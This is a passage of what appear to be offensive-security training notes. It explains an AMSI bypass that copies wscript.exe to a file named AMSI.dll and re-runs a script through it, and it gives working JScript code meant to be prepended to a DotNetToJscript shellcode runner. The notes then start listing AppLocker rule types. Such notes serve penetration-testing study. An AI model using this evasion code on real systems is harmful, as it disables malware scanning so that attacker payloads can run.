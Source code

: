 => Rename `wscript.exe` to `amsi.dll` and executing it.

Any subsequent attempts to use the AMSI APIs will fail, causing AMSI itself to fail and be disabled, leaving us with an AMSI bypass.

Note that double-clicking or running a file with a `.dll` extension will fail since DLLs are normally loaded, not executed. This behavior is  caused by the Win32 `ShellExecute` API, which is used by `cmd.exe`.

However, if we instead use the `CreateProcess` Win32 API, the file extension is ignored and the file header would be parsed to determine if it is a valid executable. We can use the `Exec` method of the `WScript.Shell` object since it's just a wrapper for it.

When the Jscript is executed, it will copy `wscript.exe` to a writable and executable folder, naming it "`amsi.dll`". Then, it will execute this copy while supplying the original Jscript file.

Prepend below code to the `DotNetToJscript`-generated shellcode runner

```js
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
	if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
	{
		throw new Error(1, '');
	}
}
catch(e)
{
	filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
	sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName);
	WScript.Quit(1);
}
```

# Application Whitelisting

3 primary AppLocker rule categories, which can be combined as needed:

1. Based on file paths: used to whitelist a single file based on its filename and path or recursively include the contents of a directory.

2. Based on a file hash: allow a single file to execute regardless of the location. AppLocker uses a SHA256 Authenticode hash.

3. Based on a digital signature: whitelist all files from an individual publisher with a single signature, which simplifies whitelisting across version updates.

4 rule properties which enable enforcement for 4 separate file types.

1. Executables: `.exe` file extension

2. Windows Installer files: "`.msi`" file extension.

3. PowerShell scripts, Jscript scripts, VB scripts and older file formats: `.cmd` and `.bat` file extensions. Does not include any 3rd-party scripting engines like Python nor compiled languages like Java.
